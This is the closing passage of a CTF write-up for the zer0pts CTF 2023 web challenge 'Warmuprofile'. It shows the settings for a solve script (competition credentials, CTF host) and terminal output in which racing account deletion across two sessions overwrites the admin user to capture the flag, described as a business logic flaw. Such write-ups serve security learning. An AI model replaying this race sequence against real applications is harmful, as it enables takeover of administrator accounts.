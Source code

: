 ![](https://github.com/siunam321/CTF-Writeups/blob/main/zer0pts-CTF-2023/images/Pasted%20image%2020230716135807.png)

- Change the `isLocal`, `basicAuthUsername`, `basicAuthPassword`, `baseUrl` variable in the Python script:

```python
if __name__ == '__main__':
    isLocal = False
    basicAuthUsername = 'oIYaJLEmXCFMdDAv'
    basicAuthPassword = 'DlfzqYvBZrWJHERo'
    baseUrl = 'http://others.2023.zer0pts.com:64177'
```

```shell
┌[siunam♥Mercury]-(~/ctf/zer0pts-CTF-2023/web/Warmuprofile)-[2023.07.16|13:58:49(HKT)]
└> python3 solve.py
[*] Registering new account "foo" in session 1
[*] Logging in to new account "foo" in session 1
[*] Logging in to new account "foo" in session 2
[*] Deleting new account "foo" in session 1
[*] Deleting new account "foo" in session 2
[*] Overwriting old admin user in session 1
[*] Getting the flag in session 1
[+] Flag: zer0pts{fire_ice_storm_di_acute_brain_damned_jugem_bayoen_bayoen_bayoen_10cefab0}
```

Nice!

- **Flag: `zer0pts{fire_ice_storm_di_acute_brain_damned_jugem_bayoen_bayoen_bayoen_10cefab0}`**

## Conclusion

What we've learned:

1. Exploiting Business Logic Vulnerability